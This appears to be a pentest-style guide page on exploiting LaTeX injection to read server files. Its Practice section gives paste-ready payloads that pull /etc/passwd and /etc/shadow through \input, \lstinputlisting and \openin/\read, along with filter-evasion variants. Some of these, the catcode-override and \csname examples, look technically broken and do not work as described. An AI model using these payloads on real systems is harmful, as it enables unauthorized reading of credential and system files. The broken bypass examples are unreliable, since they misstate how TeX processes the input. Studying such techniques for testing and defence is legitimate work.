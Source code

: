 ```yaml
---
title: 'LaTeX Injection: Read File Exploitation Explained'
description: Explore LaTeX injection techniques to disclose files, bypass filters,
  and understand risks.
keywords:
- LaTeX injection
- file disclosure
- input filter bypass
- catcode override
- command expansion techniques
---
```


# Read File

## Context

This guide focuses on exploiting LaTeX injection to disclose file contents on a server, leveraging various command techniques and encoding unwonted paths. By understanding how LaTeX processes file input and applying bypass techniques, attackers can read sensitive files without being detected by typical input validation measures. This article assumes you have foundational knowledge of LaTeX commands, file system structures, character encoding, and LaTeX Injection practices.

## Theory

### File Disclosure via LaTeX Injection

LaTeX is a typesetting system that processes file inclusion commands during compilation. This capability can be abused to read and disclose arbitrary files from a server's filesystem. The vulnerability arises because LaTeX compilers execute file inclusion commands without adequate sandboxing, allowing attackers to inject these commands into user-controlled input fields. When the compiled document is rendered, contents of these files are disclosed to the attacker, facilitating unauthorized data access.

### Key LaTeX File Inclusion Primitives

Various LaTeX commands can be exploited to include file contents:

- `\input{file}` and `\include{file}` insert file contents directly at compile time.
- `\openin` and `\read` allow file content to be read line-by-line.
- `\lstinputlisting` and `\verbatiminput` allow the display of file contents in their entirety and without formatting.

### Bypassing Input Filters and Encoding Restrictions

To successfully disclose files, attackers need to bypass input filters and any encoding restrictions that may be in place:

- **Unicode and Hexadecimal Escapes**: Characters can be obfuscated using their Unicode (e.g., `^^2f` for '/') or hexadecimal equivalents to bypass naive blacklists.
- **Catcode Overrides**: This technique involves redefining certain characters' behavior (via catcodes) to circumvent input checks.
- **Command Expansion Primitives**: Using `\expandafter` and `\csname`, attackers can construct and obfuscate payloads dynamically, evading static analysis.

## Practice

### Direct File Inclusion with \input

Directly inject the following LaTeX payload into the input field where the LaTeX code is parsed:

```latex
\input{/etc/passwd}
```

This command attempts to include and render the contents of the `/etc/passwd` file. If successful, the sensitive file contents will be disclosed in the compiled document.

### File Disclosure with \lstinputlisting

To display a file's contents verbatim in the compiled output, use the `\lstinputlisting` command:

```latex
\lstinputlisting{/etc/shadow}
```

This renders the contents of `/etc/shadow` directly, facilitating the exposure of sensitive data.

### Bypassing Filters with Unicode/Hexadecimal Escapes

To evade input filters that block `/` or other characters, leverage hexadecimal escapes:

```latex
\input{^^2fetc^^2fpasswd}
```

This sequence translates the hexadecimal encoding to '/' during processing, bypassing straightforward filter attempts.

### Catcode Override for File Inclusion

Adjust the category code of characters like `/` to enable file inclusion bypass:

```latex
\catcode`/=0 \input/etc/passwd
```

This technique redefines `/` as an escape character, bypassing character-level restrictions in the system.

### Obfuscated Inclusion with \expandafter and \csname

Employ these LaTeX commands to obfuscate paths and evade filtration mechanisms:

```latex
\expandafter\input\csname etc/passwd\endcsname
```

The expression obfuscates the path's appearance to circumvent simple pattern detection or static analysis tools.

### Line-by-Line File Read with \openin and \read

To read files line-by-line, inject the following sequence:

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\closein\file
\line
```

This script opens the file, reads a single line into `\line`, and outputs it. Looping this payload could disclose the entire file.

## Tools

- **pdflatex**
- **lualatex**
- **xelatex**
